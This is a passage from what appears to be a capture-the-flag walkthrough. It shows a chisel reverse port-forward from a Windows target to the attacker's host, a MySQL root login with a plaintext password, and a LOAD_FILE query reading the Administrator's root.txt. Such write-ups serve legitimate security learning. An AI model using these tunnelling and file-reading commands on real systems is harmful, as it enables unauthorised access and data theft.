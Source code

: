 ![](images/Pasted%20image%2020250417161107.png)
Then we can use `chisel` to port forwarding to our local machine
```
# local machine
chisel server -p 6150 --reverse
# target
.\chisel.exe client 10.10.16.5:6150 R:9292:127.0.0.1:9292
```
Then  login to database, and check the file
```
mysql -h 127.0.0.1 -P 9292 --skip-ssl -u root -pibWijteig5
SELECT LOAD_FILE('C:\\Users\\Administrator\\Desktop\\root.txt');
```